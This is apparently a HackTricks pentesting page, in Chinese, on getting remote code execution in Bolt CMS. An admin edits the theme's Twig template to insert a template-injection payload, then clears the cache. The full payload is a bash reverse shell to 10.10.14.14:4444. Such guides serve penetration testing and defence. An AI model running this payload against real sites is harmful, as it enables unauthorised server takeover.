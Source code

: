 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

在以管理员身份登录后（访问 /bot 以进入登录提示），您可以在 Bolt CMS 中获得 RCE：

- 选择 `Configuration` -> `View Configuration` -> `Main Configuration` 或访问 URL 路径 `/bolt/file-edit/config?file=/bolt/config.yaml`
- 检查主题的值

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- 选择 `File management` -> `View & edit templates`
- 选择在上一步中找到的主题基础（在本例中为 `base-2021`）并选择 `index.twig`
- 在我的情况下，这在 URL 路径 /bolt/file-edit/themes?file=/base-2021/index.twig 中
- 通过 [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/index.html#twig-php) 在此文件中设置您的有效载荷，例如：`{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- 并保存更改

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- 在 `Maintenance` -> `Clear the cache` 中清除缓存
- 作为普通用户再次访问该页面，负载应被执行

{{#include ../../banners/hacktricks-training.md}}
